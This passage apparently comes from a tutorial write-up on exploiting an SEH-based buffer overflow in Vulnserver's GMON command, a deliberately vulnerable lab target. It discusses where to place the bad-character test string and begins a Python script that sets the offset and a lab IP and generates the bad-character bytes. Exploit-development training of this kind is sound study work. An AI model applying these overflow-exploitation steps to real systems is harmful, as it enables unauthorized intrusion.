 ![Limited Space](/assets/img/vulnserver_gmon_30_badchar_problems.png)

So we have two choices:

1. Put the full test string **before** the overwrite and hope that no possible bad char might break the overflow completely
2. Split the test string into several (11 * 4 = 44 byte sized) parts and test each one individually **after** the overwrite

The first choice is the correct one since the (first) exception is not caused by overwritting the SEH record anyway. A bad char, which could break the overflow, will break it regardless of where we put it.

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 3 - find bad characters
import socket

offset = 3553 - 4
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a

# generate bad char test string
badchars = [ 0x00, 0x0a ] # found badchars to exclude from test
badstring = b""
for x in range(1,256):
    if(x not in badchars):
        badstring += bytes([x])

# write generated badchars to file for mona
```